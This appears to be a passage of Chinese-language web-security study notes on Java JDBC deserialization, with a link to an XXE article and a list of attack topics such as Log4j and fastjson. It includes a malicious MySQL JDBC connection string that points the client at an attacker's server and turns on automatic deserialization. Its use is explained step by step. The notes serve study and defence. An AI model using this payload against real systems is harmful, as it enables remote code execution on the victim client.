   ![image-20231101222129702](../../images/image-20231101222129702.png)



### jar://

[一篇文章带你理解漏洞之 XXE 漏洞 | K0rz3n's Blog](https://www.k0rz3n.com/2018/11/19/一篇文章带你深入理解 XXE 漏洞/#实验六：文件上传)



# 反序列化

## jdbc反序列化

> JDBC(Java Database Connectivity)是Java提供对数据库进行连接、操作的标准API。Java自身并不会去实现对数据库的连接、查询、更新等操作而是通过抽象出数据库操作的API接口(JDBC)，不同的数据库提供商必须实现JDBC定义的接口从而也就实现了对数据库的一系列操作。
>
> jdbc反序列化指在通过JDBC连接MySQL服务端时，会有几句内置的查询语句需执行，其中两个查询的结果集在MySQL客户端进行处理时会被`ObjectInputStream.readObject()`进行反序列化处理。如果攻击者可以控制JDBC连接设置项，那么可以通过设置其配置指向恶意MySQL服务触发MySQL JDBC客户端的反序列化漏洞

```java
jdbc:mysql://xxx.xxx.xxx.xxx:3306/test?"+"autoDeserialize=true"+"&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor
```

- 将 JDBC 连接地址指向攻击者事先准备好的恶意服务器，这个服务器可以返回恶意的序列化数据。
- 指定 autoDeserialize 参数为 true，mysql 客户端就可以自动反序列化恶意 payload。
- 使用 ServerStatusDiffInterceptor 触发客户端和服务端的交互和反序列化。



```
Shiro
Weblogic
Log4j
fastjson
rmi
jndi
jdbc
```

